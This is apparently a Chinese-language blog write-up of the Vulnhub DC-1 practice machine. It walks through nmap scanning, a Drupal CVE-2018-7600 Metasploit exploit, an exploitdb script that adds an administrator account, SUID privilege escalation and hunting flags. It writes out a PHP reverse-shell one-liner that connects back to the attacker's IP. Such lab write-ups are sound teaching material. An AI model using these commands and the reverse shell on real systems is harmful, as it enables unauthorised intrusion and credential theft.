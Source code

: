```yaml
---
title: Vulnhub - DC-1 の Write-Up
date: 2019-11-14 09:55:25
categories: 
- WriteUPs
- Vulnhub
tags: 
- Web
- DC Series
---
```

## 前言
今天看到FreeBuf上有一篇关于[VulHub DC-1](http://www.five86.com/downloads/DC-1.zip)靶机的教学，就自己下载了一台玩了一下。

<!-- more -->

## Step 1

首先肯定要扫描一下靶机的IP地址，在Kali中用nmap扫描一下整个网段。

![](/img/DC-1/DC-1-1.png)

172.16.12.134是Kali自己的地址，所以靶机的地址就是172.16.12.136了。然后再针对靶机扫描一下开放的端口和服务。

![](/img/DC-1/DC-1-2.png)

## Step 2

访问了下80端口的服务，发现是一个Drupal的cms。没有发现Web服务上有什么可乘之机，用nikto也扫了一下网站，做为辅助判断，也没有任何进展。

![](/img/DC-1/DC-1-3.png)

也用了Dirbuster探索了一下网站结构，找找有没有敏感文件，最终都一无所获。于是去百度上找了一下Drupal有什么漏洞，果不其然，找到一个CVE-2018-7600的远程代码执行漏洞，影响Drupal 6，7，8等多个子版本。正好nmap扫描时发现靶机上是Drupal 7，瞬间觉得找对了地方。

## Step 3

第一反应当然是MSF走起，`search cve-2018-7600`果然有东西。

![](/img/DC-1/DC-1-4.png)

MSF一通操作，so easy！

![](/img/DC-1/DC-1-5.png)

![](/img/DC-1/DC-1-6.png)

进入shell之后发现是一个非交互shell，想办法得到一个交互式shell。首先试了下php的反弹shell，执行命令`php -r '$sock=fsockopen("172.16.12.134",1234);exec("/bin/sh -i <&3 >&3 2>&3");'`可以回弹shell，但是输入命令没反应。只能换个法子，看了下系统环境，发现有Python 2.7的环境，利用下面的命令实现反弹shell。

```bash
python -c "import pty; pty.spawn('/bin/sh')"
```

![](/img/DC-1/DC-1-7.png)

## Step 4

发现www-data权限很低，接下来要进行提权操作。`uname -a`看了下系统版本，发现脏牛提权可能可以玩，但是不太好操作。最后选择了简单的[suid提权](https://coldwave96.github.io/2019/11/15/suid/)。

![](/img/DC-1/DC-1-8.png)

![](/img/DC-1/DC-1-9.png)

提权成功，开始在靶机中寻找flag，在/home/flag4文件夹下发现flag4.txt文件。

![](/img/DC-1/DC-1-10.png)

在/var/www文件夹下发现flag1.txt，就是在低权限用户www-data下发现的文件。

![](/img/DC-1/DC-1-11.png)

根据提示去找站点的配置文件/var/www/sites/default/settings.php，在文件中发现了flag2和数据库的帐号密码。

![](/img/DC-1/DC-1-12.png)

连接数据库，在数据库中继续寻找信息。

![](/img/DC-1/DC-1-13.png)

在users表里发现admin用户的信息。

![](/img/DC-1/DC-1-14.png)

## Step 5

### Solution 1

接下来尝试破解或者修改admin密码，Drupal对数据库中用户密码的加密脚本为网站根目录下scripts文件夹下的`password-hash.sh`。根据加密脚本解密肯定是一种南辕北辙的做法，虽然地球是圆的，理论上可以做到。但是简单直接的思路是加密新的我们设定的密码，然后对数据库中的admin密码进行替换。(参考链接：[http://drupalchina.cn/node/2128](http://drupalchina.cn/node/2128))

![](/img/DC-1/DC-1-15.png)

然后登陆Drupal，找到flag3。

![](/img/DC-1/DC-1-16.png)

### Solution 2

MSF的exploitdb中关于Drupal也存在不少的利用脚本，其中针对Drupal 7的有一个添加一个和admin权限相同用户的脚本，通过这个脚本可以创建一个administrator账户。

![](/img/DC-1/DC-1-17.png)

运行下面的命令。

```bash
python /usr/share/exploitdb/exploits/php/webapps/34992.py -t http://172.16.12.136 -u administrator -p 123456
```

![](/img/DC-1/DC-1-18.png)

同样的登陆Drupal，找到flag3。

![](/img/DC-1/DC-1-19.png)

## Step 6

最后好剩下一个flag，我自己是完全没想到。根据WriteUp，查看靶机/etc/shadow文件发现系统存在一个flag4用户，然后爆破ssh密码可以发现该用户的弱密码orange，登录后可以找到flag4，然后通过flag4找到最后一个flag在/root根目录下。

在root下也发现了这个flag，但是没有仔细看内容，所以放过了最后一个flag。

![](/img/DC-1/DC-1-20.png)

![](/img/DC-1/DC-1-21.png)